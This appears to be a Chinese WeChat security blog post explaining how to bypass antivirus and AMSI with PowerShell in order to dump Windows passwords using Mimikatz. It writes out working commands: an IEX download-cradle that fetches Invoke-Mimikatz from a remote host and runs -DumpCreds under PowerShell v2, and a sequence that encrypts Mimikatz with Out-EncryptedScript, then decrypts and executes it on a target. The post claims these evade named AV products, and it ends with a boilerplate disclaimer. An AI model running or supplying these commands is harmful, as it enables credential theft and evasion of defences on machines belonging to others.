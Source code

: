 ##  powershell免杀抓密码姿势

原创 tubai  [ 花指令安全实验室 ](javascript:void\(0\);)

**花指令安全实验室** ![]()

微信号 junk-code

功能介绍 专注于红蓝安全攻防研究的优质平台

____

__

收录于话题

  
前言：  
今天给大家分享两个利用powershell来bypass杀软抓密码技巧，亲测目前不杀。  
注：本号首发在了土司 https://www.t00ls.net/thread-62167-1-1.html  
一.

  

利用powershell v2绕过amsi抓windows密码（前提是win10机器需要.net3.0以上）

当我们实用原始的powershell执行经典的抓密码发现，是被amsi阻止的  

  * 

    
    
    powershell -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://192.168.52.134:6688/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805110810.png)  

  

此时我们利用降维攻击，强制使用PowerShell v2绕过 amsi，因为版本2没有支持AMSI的必要内部挂钩  

![](https://gitee.com/fuli009/images/raw/master/public/20210805110812.png)  

  

可以看到成功绕过了amsi的检测执行成功mimikatz抓到了密码！

二.

使用Out-EncryptedScript加密免杀抓取密码（亲测目前可绕过某绒和某60）

Out-EncryptedScript是Powersploit中提供工具的一种，他是用来进行加密处理的脚本，首先我们将Out-
EncryptedScript.ps1与Invoke-Mimikatz.ps1放到同一目录下  

![](https://gitee.com/fuli009/images/raw/master/public/20210805110813.png)

  

依次执行如下命令  

  *   *   * 

    
    
    powershell.exeImport-Module .\Out-EncryptedScript.ps1Out-EncryptedScript -ScriptPath .\Invoke-Mimikatz.ps1 -Password tubai -Salt 123456

  
  

![](https://gitee.com/fuli009/images/raw/master/public/20210805110814.png)  

  

目录下便会自动生成evil.ps1文件，上传到目标机器即可  

![](https://gitee.com/fuli009/images/raw/master/public/20210805110813.png)  

  

在目标机器依次执行如下命令  

  *   *   *   *   *   *   * 

    
    
    powershell.exeIEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Out-EncryptedScript.ps1")  注：由于https://raw.githubusercontent.com/不稳地，我本人是放在自己的阿里云上的。[String] $cmd = Get-Content .\evil.ps1Invoke-Expression $cmd$decrypted = de tubai 123456Invoke-Expression $decryptedInvoke-Mimikatz

  
  

![](https://gitee.com/fuli009/images/raw/master/public/20210805110815.png)  

如下，便成功绕过了杀软，成功的抓到了密码  

![](https://gitee.com/fuli009/images/raw/master/public/20210805110816.png)  

  

三

  

总结：

绕过AV的方式层出不穷，powershell在内网渗透方面利用的方式非常多，远远不止免杀与信息收集，希望大家能在授权的情况下，玩转自己的绕过思路，都能总结出自己的一些bypass小技巧！  

声明:文章初衷仅为攻防研究学习交流之用，严禁利用相关技术去从事一切未经合法授权的入侵攻击破坏活动，因此所产生的一切不良后果与本文作者及该公众号无关

若各位师傅有更多姿势，或想与我一起交流学习，可加我VX：  

‍‍‍![](https://gitee.com/fuli009/images/raw/master/public/20210805110818.png)  

分享收藏点赞在看

  

  
  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

powershell免杀抓密码姿势

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

